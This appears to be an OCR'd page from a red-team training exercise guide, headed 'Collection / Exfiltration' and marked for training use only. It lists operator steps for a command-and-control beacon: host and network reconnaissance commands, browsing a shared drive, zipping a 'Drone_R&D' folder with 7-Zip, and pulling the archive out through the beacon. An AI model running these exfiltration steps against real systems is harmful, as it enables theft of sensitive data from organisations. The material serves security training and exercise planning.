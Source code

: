 Collection / 
Exfiltration 
 
> Left-click mystery-31 beacon 
> Right-click>Interact Console: 
sleep 60 20 shell whoami /all shell ipconfig /all shell netstat -ant shell netstat -r shell net use 
� Right-Click > Explore > File Browser 
� List Drives 
� Click around to explore the S: drive for a while, simulating searching for files of interest 
� It will update the files each callback 
run "C:\Program Files\7-Zip\7z.exe" -r a C:\Users\Public\backup.zip "S:\Drone_R&D" download C:\Users\Public\backup.zip sleep 600 20 

MDS1 

MDS1 

2 
Unclassified//FOUO 
For Training Use Only 

6 
Unclassified//FOUO 
For Training Use Only 



For Training Use Only 

